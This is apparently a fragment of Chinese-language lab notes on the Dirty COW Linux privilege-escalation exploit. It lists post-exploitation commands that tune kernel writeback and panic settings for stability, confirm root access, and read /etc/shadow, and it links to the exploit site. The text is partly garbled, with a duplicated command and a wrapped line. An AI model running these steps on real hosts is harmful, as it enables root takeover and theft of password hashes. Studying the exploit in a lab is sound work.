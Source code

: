 卡住(2018版本已修复，利用失败):

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/fc7067b0822b2b7355756ff515452c60.png)

若成功后:

关闭定期写回以使漏洞稳定

echo 0 \> /proc/sys/vm/dirty_writeback_centisecs

允许内核崩溃时重新启动

echo 0 \> /proc/sys/vm/dirty_writeback_centisecs

echo 1 \> /proc/sys/kernel/panic && echo 1 \> /proc/sys/kernel/panic_on_oops &&
echo 1 \>

/proc/sys/kernel/panic_on_unrecovered_nmi && echo 1 \>
/proc/sys/kernel/panic_on_io_nmi && echo 1 \> /proc/sys/kernel/panic_on_warn

查看当前身份:

whoami为root

Try reading the shadow file

cat /etc/shadow

ubuntu-14.04.1:

http://old-releases.ubuntu.com/releases/14.04.1/ubuntu-14.04.1-desktop-amd64.iso

https://github.com/dirtycow/dirtycow.github.io

